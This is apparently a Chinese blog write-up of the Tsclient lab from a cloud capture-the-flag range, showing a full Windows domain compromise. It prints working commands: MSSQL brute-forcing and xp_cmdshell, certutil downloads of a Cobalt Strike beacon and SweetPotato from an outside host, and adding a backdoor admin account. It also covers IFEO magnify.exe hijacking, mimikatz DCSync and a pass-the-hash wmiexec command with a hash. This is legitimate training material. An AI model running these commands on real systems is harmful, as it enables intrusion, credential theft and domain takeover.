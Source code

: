 # 春秋云镜-Tsclient

  
  
&lt;!--more--&gt;  
## flag01  
`39.99.133.30`  
只给了一个`IP`，利用`fscan`扫描，  
可以爆破出账号和密码`sa/1qaz!QAZ`，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504162259491.png)
利用`MDUT`进行攻击，利用开启`xp_cmdshell`进行`RCE`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504162307264.png)
存在`SeImpersonatePrivilege`权限，可以进行脏土豆进行提权  
`certutil -urlcache -split -f http://8.137.71.171:8809/artifact.exe C:\Users\Public\a.exe`  
上传CS进行操作  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504162332926.png)
脏土豆提权  
`certutil -urlcache -split -f http://8.137.71.171:8809/SweetPotato-new.exe C:\Users\Public\s.exe`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504162344454.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504162346560.png)
`flag{f8d4772e-3b4d-4d1d-8454-091b5904c6c0}`，还有`hint`  
`Maybe you should focus on user sessions...`  
## flag02  
上线一个最高权限的用户`C:\Users\Public\s.exe -a &#34;C:\Users\Public\a.exe&#34;`  
查看在线用户  
`shell query user`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504162349969.png)
直接注入一个`john`用户的进程，获得一个`john`用户的权限  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504162351772.png)
`shell net use`查看到与其他主机的连接  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504162352680.png)
`shell dir \\TSCLIENT\C`查看远程目录，发现`credential.txt`  
`shell type \\TSCLIENT\C\credential.txt`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504162354601.png)
获得了账号和密码`xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#`，还有`hint`  
`Do you know how to hijack Image?`  
添加一个用户，连接3389  
```  
shell net user huahua 123@qwer! /add  
shell net localgroup administrators huahua /add  
```  
上传`fscan`开扫，  
```  
C:\Users\huahua\Desktop&gt;fscan.exe -h 172.22.8.18/24  
  
   ___                              _  
  / _ \     ___  ___ _ __ __ _  ___| | __  
 / /_\/____/ __|/ __| &#39;__/ _` |/ __| |/ /  
/ /_\\_____\__ \ (__| | | (_| | (__|   &lt;  
\____/     |___/\___|_|  \__,_|\___|_|\_\  
                     fscan version: 1.8.3  
start infoscan  
trying RunIcmp2  
The current user permissions unable to send icmp packets  
start ping  
(icmp) Target 172.22.8.46     is alive  
(icmp) Target 172.22.8.15     is alive  
(icmp) Target 172.22.8.18     is alive  
(icmp) Target 172.22.8.31     is alive  
[*] Icmp alive hosts len is: 4  
172.22.8.18:1433 open  
172.22.8.31:445 open  
172.22.8.15:445 open  
172.22.8.46:445 open  
172.22.8.18:445 open  
172.22.8.31:139 open  
172.22.8.15:139 open  
172.22.8.46:139 open  
172.22.8.31:135 open  
172.22.8.18:139 open  
172.22.8.15:135 open  
172.22.8.46:135 open  
172.22.8.18:135 open  
172.22.8.46:80 open  
172.22.8.18:80 open  
172.22.8.15:88 open  
[*] alive ports len is: 16  
start vulscan  
[*] NetInfo  
[*]172.22.8.31  
   [-&gt;]WIN19-CLIENT  
   [-&gt;]172.22.8.31  
[*] NetInfo  
[*]172.22.8.46  
   [-&gt;]WIN2016  
   [-&gt;]172.22.8.46  
[*] NetBios 172.22.8.15     [&#43;] DC:XIAORANG\DC01  
[*] NetBios 172.22.8.31     XIAORANG\WIN19-CLIENT  
[*] NetInfo  
[*]172.22.8.18  
   [-&gt;]WIN-WEB  
   [-&gt;]172.22.8.18  
   [-&gt;]2001:0:348b:fb58:304e:318a:d89c:7ae1  
[*] WebTitle http://172.22.8.18        code:200 len:703    title:IIS Windows Server  
[*] NetInfo  
[*]172.22.8.15  
   [-&gt;]DC01  
   [-&gt;]172.22.8.15  
[*] NetBios 172.22.8.46     WIN2016.xiaorang.lab                Windows Server 2016 Datacenter 14393  
[*] WebTitle http://172.22.8.46        code:200 len:703    title:IIS Windows Server  
[&#43;] mssql 172.22.8.18:1433:sa 1qaz!QAZ  
已完成 16/16  
[*] 扫描结束,耗时: 10.0026477s  
```  
上传拿到一个域内用户的账号和密码，所以目标很明确，直接打`pth`  
```  
(icmp) Target 172.22.8.46     is alive WIN2016.xiaorang.lab  
(icmp) Target 172.22.8.15     is alive XIAORANG\DC01  
(icmp) Target 172.22.8.18     is alive hacker  
(icmp) Target 172.22.8.31     is alive WIN19-CLIENT  
```  
先打域内的机器`172.22.8.46`和`172.22.8.15`，域控无法连接  
直接上传`frp`，`3389`连接，这里需要修改密码  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504170016804.png)
根据`hint`是映像劫持提权  
查看权限  
```  
get-acl -path &#34;HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options&#34;  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504170019412.png)
所有用户都可以修改注册表，所以这里直接改即可。  
```  
REG ADD &#34;HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe&#34; /v Debugger /t REG_SZ /d &#34;C:\windows\system32\cmd.exe&#34;  
```  
在登陆账户界面选择放大镜  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504170022875.png)
劫持成功，并成功提权。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504170022514.png)
`flag{b5ae73f0-9da7-471b-9b95-a5bc8656a7c7}`  
## flag03  
`172.22.8.46`不出网，在CS做一层代理上线  
成功上线  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504170031068.png)
这里直接打`DCSync`dump administrator的hash  
`shell C:\\Users\\Aldrich\\Desktop\\mimikatz.exe &#34;privilege::debug&#34; &#34;lsadump::dcsync /domain:xiaorang.lab /all /csv&#34; &#34;exit&#34;`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504170044300.png)
直接`pth`  
`python3 wmiexec.py xiaorang.lab/Administrator@172.22.8.15 -hashes :2c9d81bdcf3ec8b1def10328a7cc2f08`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504170045115.png)
`flag{de7ad04b-823b-434c-820c-545f08e19ac0}`  
  
  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-tsclient/  


